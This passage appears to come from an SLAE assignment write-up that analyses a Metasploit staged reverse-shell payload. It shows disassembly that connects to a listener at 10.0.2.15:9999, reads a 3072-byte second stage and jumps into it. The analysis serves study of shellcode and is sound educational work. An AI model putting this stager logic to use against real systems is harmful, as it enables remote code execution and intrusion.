 Then, the socket will connect to a listener on IP *10.0.2.15* and port *9999*. It is necessary to start a metasploit listener for the payload selected.

![](../Images/25_slae_assignment_5.png)

``Starting listener on port 9999``

````
   0x0804a069 <+41>:	xchg   edi,eax
   0x0804a06a <+42>:	pop    ebx
   0x0804a06b <+43>:	push   0xf02000a ;IP 10.0.2.15
   0x0804a070 <+48>:	pushw  0xf27     ;PORT 9999
   0x0804a074 <+52>:	push   bx
   0x0804a076 <+54>:	mov    ecx,esp
   0x0804a078 <+56>:	push   0x66
   0x0804a07a <+58>:	pop    eax
   0x0804a07b <+59>:	push   eax
   0x0804a07c <+60>:	push   ecx
   0x0804a07d <+61>:	push   edi
   0x0804a07e <+62>:	mov    ecx,esp
   0x0804a080 <+64>:	inc    ebx
   0x0804a081 <+65>:	int    0x80     ;connects
````
``Debugging connection process``

By checking the listener, it is possible to verify that there is a new incoming connection.

![](../Images/26_slae_assignment_5.png)

``Listener receiving a connection``

Then the program will read the second stage, so it will execute a read syscall.
````
   0x0804a083 <code+67>:	pop    ebx    ;file descriptor
   0x0804a084 <code+68>:	cdq           ;cleans EDX
   0x0804a085 <code+69>:	mov    dh,0xc ;c00 = 3072 to read
   0x0804a087 <code+71>:	mov    al,0x3 ;sys_read
   0x0804a089 <code+73>:	int    0x80
   0x0804a08b <+75>:	jmp    ecx            ;then jumps into ECX for stage 2
````
``Debugging read function``
